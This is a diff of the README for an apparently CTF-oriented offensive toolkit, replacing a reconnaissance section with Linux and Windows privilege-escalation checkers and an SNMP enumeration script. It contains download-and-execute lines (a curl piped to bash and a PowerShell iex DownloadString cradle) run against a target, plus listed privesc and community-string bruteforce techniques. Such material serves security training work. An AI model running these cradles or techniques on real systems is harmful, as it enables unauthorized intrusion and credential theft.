

Before and after one commit to KermitPurple96/CTF-toolkit, a Markdown page: README.md, the part around one of its changes. Shown at 88% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -133,58 +136,79 @@ shellpy 10.10.10.10 443 -powercat --obfuscate --macro
 
 ![Shellpy Example](https://github.com/user-attachments/assets/9bb1efe9-bcaa-49b8-b99b-b865b758eefe)
 
-### Reconnaissance Scripts
+### Privilege Escalation Scripts
 
 #### Linux Privilege Escalation
 
-Load the recon script on target:
+Download and run the privilege escalation checker:
 
 ```bash
-. <(curl http://10.10.10.10/recon.sh)
+curl http://10.10.10.10:5000/downloads/privesc_linux.sh | bash
 ```
+
+Or run it locally:
+
+```bash
+./downloads/privesc_linux.sh -q   # Quick wins only
+./downloads/privesc_linux.sh -f   # Full enumeration
+./downloads/privesc_linux.sh -l   # Full + LinPEAS
+./downloads/privesc_linux.sh -p   # Full + pspy
+```
+
+Features:
+- **Quick Wins**: sudo -l, SUID binaries, capabilities, docker group, writable /etc/passwd
+- **Full Enumeration**: kernel exploits, interesting files, services, polkit/PwnKit
+- **LinPEAS Integration**: Automatic download and execution
+- **pspy Integration**: Process monitoring
+- **Organized Output**: QUICK_WINS.txt with high-priority findings
+- **CTF-Focused**: Based on public CTF techniques and OSCP methodology
+
+See `tools/PRIVESC_GUIDE.md` for complete documentation.
 
 #### Windows Privilege Escalation
 
-Load the recon script on target:
+Download and run the privilege escalation checker:
 
 ```powershell
-iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/recon.ps1'))
+iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10:5000/downloads/privesc_windows.ps1'))
 ```
 
-Available functions:
+Or run it locally:
 
-**Auxiliary Tools:**
-- `aux.upload [file]` - Upload files via HTTP POST
-- `aux.download [file]` - Download files via HTTP GET
+```powershell
+.\downloads\privesc_windows.ps1 -Quick   # Quick wins only
+.\downloads\privesc_windows.ps1 -Full    # Full enumeration
+.\downloads\privesc_windows.ps1 -WinPEAS # Full + WinPEAS
+```
 
-**Reconnaissance:**
-- `recon.sys` - System information
-- `recon.users` - User information
-- `recon.programs` - Installed programs
-- `recon.protections` - Security protections
-- `recon.process` - Running processes
-- `recon.networks` - Network configuration
-- `recon.portscan <host> [range]` - Port scanner
-- `recon.pingscan <subnet>` - Subnet scanner
+Features:
+- **Quick Wins**: AlwaysInstallElevated, unquoted service paths, writable service binaries
+- **Token Privileges**: SeImpersonatePrivilege, SeDebugPrivilege detection
+- **AutoLogon Credentials**: Automatic detection
+- **Scheduled Tasks**: Writable binary detection
+- **WinPEAS Integration**: Automatic download and execution
+- **Organized Output**: QUICK_WINS.txt with high-priority findings
 
-**Privilege Escalation:**
-- `priv.installElev` - AlwaysInstallElevated check
-- `priv.serv.dir` - Service directory permissions
-- `priv.serv.reg` - Service registry permissions
-- `priv.serv.unq` - Unquoted service paths
-- `priv.cred.files` - Credential files
-- `priv.cred.history` - Command history
-- `priv.owned.files` - User-owned files
-- `priv.search.fname` - Search filenames
-- `priv.search.fcontent` - Search file content
-- `priv.autorun` - Scheduled tasks
+### SNMP Enumeration
 
-**Active Directory:**
-- `ad.users` - Domain users
-- `ad.computers` - Domain computers
-- `ad.groups` - Domain groups
-- `ad.spn` - Kerberoastable accounts
-- `ad.asrep` - AS-REP roastable users
+Automated SNMP enumeration based on OSCP methodology:
+
+```bash
+./tools/snmp_enum.sh -t 10.10.10.92 -q   # Quick scan
+./tools/snmp_enum.sh -t 10.10.10.92 -f   # Full enumeration
+./tools/snmp_enum.sh -t 10.10.10.92 -C /path/to/wordlist.txt  # Bruteforce communities
+./tools/snmp_enum.sh -t 10.10.10.92 -a   # All techniques
+```
+
+Features:
+- **Community String Bruteforce**: Using onesixtyone
+- **Full SNMP Walk**: From root OID (not default OID 2)
+- **Extended MIB Enumeration**: NET-SNMP-EXTEND-MIB for RCE vectors
+- **Specific OID Checks**: Users, software, ports, processes, system info
+- **Multiple Targets**: Support for target list files
+- **Organized Output**: Separate files for each enumeration type
+
+See `tools/SNMP_ENUMERATION_GUIDE.md` for complete documentation and OID reference.
 
 ## Architecture
 
````
Also changed, not shown: other parts of README.md (+85 -23 lines), TODO.md (added, +223 -0 lines).
